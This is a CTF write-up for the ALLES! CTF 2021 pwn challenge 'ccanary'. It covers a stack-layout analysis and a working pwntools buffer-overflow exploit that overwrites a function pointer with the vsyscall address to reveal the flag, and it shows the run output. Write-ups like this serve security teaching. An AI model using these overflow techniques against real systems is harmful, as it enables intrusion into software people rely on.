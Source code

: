 ## ccanary

> Points: 133
>
> Solves: 89

### Description:
I'm using arch btw... ¯\_(ツ)_/¯

### Attachments:
```
ccanary  https://static.allesctf.net/1034e3b4626ce02001a330342be622edba032d07a8cbf6f0d3aecd4036370f40/ccanary
ccanary.c  https://static.allesctf.net/ffa321004f1a6f232e38e8d314920e290ee50cfce02d1632e4dfee8d0abf1c1d/ccanary.c
```

## Analysis:

The C language source code is provided below.
https://github.com/mito753/CTF/blob/main/2021/ALLES!_CTF_2021/Pwn_ccanary/ccanary.c

- We can enter character strings from 0x7fffffffdd99 in the stack state below.
- The flag can be displayed if the value (0x0000555555555210) of data.call_canary((a) part) is not destroyed and a non-zero value can be written to data.give_flag((b) part).
- However, since PIE and ASLA are valid, the address of the data.call_canary () function cannot be guessed.
```
0x7fffffffdd90:	0x00000000000000c2	0x79202d0a22414122
                                                 
0x7fffffffdda0:	0x31323032202c756f	0x0000000000000000
0x7fffffffddb0:	0x0000000000000000	0x0000555555555210
                                           (a)data.call_canary()                                
0x7fffffffddc0:	0x0000000000000000	0xc18083ccda1b7d00
                   (b)data.give_flag
0x7fffffffddd0:	0x00005555555553b0	0x00007ffff7a03bf7
```

## Solution:

By writing the following sys_time (0xc9) address (0xffffffffff600400) that is not affected by PIE and ASLA to data.call_canary (a part), 1 can be written to data.give_flag without causing a Segmentation fault.

```
gdb-peda$ x/10i 0xffffffffff600400
   0xffffffffff600400:	mov    rax,0xc9
   0xffffffffff600407:	syscall 
   0xffffffffff600409:	ret    
   0xffffffffff60040a:	int3
```

## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './ccanary'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b0000007c7be7ad4dab5be5-ccanary.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
s.recvuntil("quote> ")

buf  = "A"*(0x1f)
buf += p64(0xffffffffff600400)  # sys_time
buf += p64(1)
s.sendline(buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_ccanary$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_ccanary/ccanary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 60051
[*] Switching to interactive mode
good birb!
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Here's the flag:
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}
```
